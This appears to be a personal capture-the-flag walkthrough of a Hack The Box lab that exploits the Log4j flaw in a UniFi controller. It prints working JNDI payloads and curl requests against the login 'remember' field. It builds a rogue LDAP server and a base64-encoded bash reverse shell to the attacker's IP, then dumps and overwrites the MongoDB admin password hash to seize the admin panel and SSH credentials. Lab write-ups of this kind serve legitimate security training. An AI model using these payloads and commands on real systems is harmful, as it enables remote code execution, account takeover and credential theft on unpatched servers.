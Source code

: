 https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation

#CVE-2021-44228
Log4J in a very well known network appliance monitoring system called "UniFi"
the Log4J vulnerability manipulate a POST header called remember , giving you a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved in the MongoDB instance that is running on the system, which will allow access to the administration panel and leads to the disclosure of the administrator's SSH password.



we intercept the login request with burp and add our payload into remember parameter 
![[Pasted image 20221118184918.png]]

**JNDI: is the acronym for the Java Naming and Directory Interface API**
**LDAP: is the acronym for Lightweight Directory Access Protocol**
if we get an error that means there is the website is vulnerable to Log4j 

Payload:
```javascript
"${jndi:ldap://10.10.16.24/something}"

```
https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

**Check for vuln** 

To test for the vulnerability, let’s first grab a hostname from dnslog.cn and insert it in the following cURL command:
```bash
curl -i -s -k -X POST -H $'Host: 192.168.11.10:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://192.168.11.10:8443/api/login'



curl -i -s -k -X POST -H $'Host: 10.129.96.149:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.42:80/o=tomcat}\",\"strict\":true}' $'https://10.129.96.149:8443/api/login'  


```

![[Pasted image 20221118194150.png]]
and we have Log4j
Let's proceed to starting tcpdump on port 389 , which will monitor the network traffic for LDAP connections.

```
sudo tcpdump -i tun0 port 389
```

We will have to install Open-JDK and Maven on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system

**Open-JDK: is the Java Development kit, which is used to build Java applications**

**Maven: is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files .**

These applications will also help us run the rogue-jndi Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.

```bash

# openjdk
sudo apt update
sudo apt install openjdk-11-jdk -y 
java -version

# maven
sudo apt-get install maven

mvn -v 


# Rouge jdi
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```
![[Pasted image 20221118200618.png]]

This will create a .jar file in rogue-jndi/target/ directory called RogueJndi-1.1.jar . Now we can construct our payload to pass into the RogueJndi-1-1.jar Java application

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.

```bash
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}| {base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}

# e.g

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuNDIvOTAwMSAwPiYxCg==}|{base64,- d}|{bash,-i}" --hostname "10.10.16.42"


```
![[Pasted image 20221118201004.png]]

now we open a listener and run our payload

```bash
nc -lvp 4444 #listener 

${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat} # remember paramater value

curl -i -s -k -X POST -H $'Host: 10.129.96.149:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.16.42:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.96.149:8443/api/login' # curl for the request

```
![[Pasted image 20221118204812.png]]

# Privilege escalation 

Look for mongodb on the machine [[03 Commands/Linux/Linux]]
```bash
ps aux | grep mongo
```
![[Pasted image 20221118205506.png]]


## extract admin password


```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```
![[Pasted image 20221118210446.png]]


![[Pasted image 20221118210115.png]]

now we can send this hash to hash cat and crack it 

![[Pasted image 20221118210355.png]]
or if it's hard to crack it we can try to change the password value in Mongodb with out password to do that
first we need to create a password with same encryption

```bash
mkpasswd -m SHA-512 password123
```
Let's proceed to replacing the existing hash with the one we created.



```bash
# Change the password value to our password

mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'


```
![[Pasted image 20221118211043.png]]
now we have access to UniFi and we can login as administrator 
![[Pasted image 20221118211355.png]]

UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other Access Points over SSH from a console or terminal.
Navigate to settings -> site and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.

![[Pasted image 20221118211459.png]]

![[Pasted image 20221118211558.png]]

 
